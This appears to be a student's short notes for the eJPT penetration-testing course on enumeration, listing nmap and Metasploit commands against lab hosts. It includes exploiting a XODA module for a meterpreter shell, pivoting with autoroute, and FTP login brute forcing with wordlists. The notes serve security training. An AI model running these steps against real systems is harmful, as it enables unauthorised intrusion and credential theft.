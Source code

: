 # 08hakr's Short Notes eJPT
# Enumeration
## Content
+ Introduction to Enumeration
+ The Nmap Scripting Engine (NSE)
+ Service Enumeration
+ Service Enumeration with Nmap scripts

# Enumeration
- nmap -Pn -sV -O ip -oX windows_server_2012 (stored output in xml for metaspolite)

## iporting to metaspolite
- msfconsole
- db_status
- workspace
- workspace -a win2k12
- db_import /root/windows_server_2012
- hosts
- services
- workspace -a Nmap-Msf
- db_nmap -Pn -sV -O demo.ine.local
- vulns

## Port Scanning with Auxiliary Modules
- search xoda
- use <sr_no>
- set rhost <Target-1IP>
- set targeturi /
- meterpreter session:
- sysinfo
- shell
- /bin/bash -i
- ifconfig
- exit
- run autoroute -s <target-2IP>
- background
- sessions
- search portscan
- use 5 set and run
- back
- search udp_sweep
- use 5 set <Target-2IP> and run

## FTP Enumeration
- workspace -a FTP_Enum
- use portscan/tcp
- options set run
- back
- search type:auxiliary name:FTP
- use scanner/ftp/ftp_version
- options set run
- search ftp
- use /ftp/ftp_login
- set user_file /usr/share/metasploite-framework/data/wordlists/common_users.txt and password to unix_passwords.txt
